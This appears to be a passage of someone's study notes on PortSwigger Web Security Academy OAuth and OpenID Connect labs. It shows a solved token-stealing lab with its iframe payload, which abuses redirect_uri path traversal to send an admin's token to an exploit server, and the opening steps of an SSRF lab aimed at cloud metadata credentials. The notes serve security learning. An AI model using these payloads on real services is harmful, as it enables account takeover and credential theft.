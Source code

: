 response:
    HTTP/1.1 200 OK
    ..

    {"sub":"administrator","apikey":"TE1YFcPrsg9X1behDDqIeYAYn79O2cgQ","name":"Administrator","email":"administrator@normal-user.net","email_verified":true}

# solved

iframe didnt work. since linked informatio came as a frag (#) and not param (?)
    <iframe src='https://oauth-0adb00460487a6c3c0392e5f02110022.web-security-academy.net/auth?client_id=do56u1zrsd8zhv08oimzq&redirect_uri=https://0a1a000f047ca6e6c0762eaf00c6002e.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a83009b04d7a673c0362e2401f00036.web-security-academy.net/exploit&response_type=token&nonce=884658517&scope=openid%20profile%20email'>


<span style="color:yellow;font-weight:700;font-size:30px">
OpenID Connect
</span>
https://portswigger.net/web-security/oauth/openid

# ***1. Lab: SSRF via OpenID dynamic client registration***
https://portswigger.net/web-security/oauth/openid/lab-oauth-ssrf-via-openid-dynamic-client-registration

 This lab allows client applications to dynamically register themselves with the OAuth service via a dedicated registration endpoint. Some client-specific data is used in an unsafe way by the OAuth service, which exposes a potential vector for SSRF.

To solve the lab, craft an SSRF attack to access http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/ and steal the secret access key for the OAuth provider's cloud environment. 

in **GET /social-login HTTP/1.1** we find a redirect:
    <meta http-equiv=refresh content='3;url=https://oauth-0a1e007604dd0a8cc19e06500278004f.web-security-academy.net/auth?client_id=ti8y5birgps5gfy8iqkcj&redirect_uri=https://0ab8005e04c10a06c1fa063d00e500de.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email'>

1. investigate openid configuration:
request 
    GET /.well-known/openid-configuration HTTP/1.1
    Host: oauth-0ade002103334477c08e5c78022700d7.web-security-academy.net

response:
    HTTP/1.1 200 OK

    {
    ..
    ..
    "registration_endpoint":"https://oauth-0ade002103334477c08e5c78022700d7.web-security-academy.net/reg",
    ..
    ..
    }
